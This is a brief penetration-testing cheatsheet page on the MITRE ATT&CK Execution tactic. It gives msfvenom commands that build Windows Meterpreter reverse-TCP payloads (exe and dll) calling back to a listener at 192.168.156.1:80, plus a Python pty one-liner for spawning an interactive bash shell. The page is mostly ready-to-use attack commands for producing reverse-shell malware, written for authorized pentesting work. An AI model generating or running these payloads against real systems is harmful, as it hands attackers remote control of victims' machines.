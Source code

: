 ```yaml
---
layout: post
title: TA0002 Execution
category: Pentesting
parent: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-15
permalink: /:categories/:title/
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

<!-- vscode-markdown-toc -->
* [Executing System Interpreters](#ExecutingSystemInterpreters)
* [Build System Interpreters - MSFvenom](#BuildSystemInterpreters-MSFvenom)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='BuildSystemInterpreters-MSFvenom'></a>Build System Interpreters - MSFvenom
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='ExecutingSystemInterpreters'></a>Executing System Interpreters 
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```
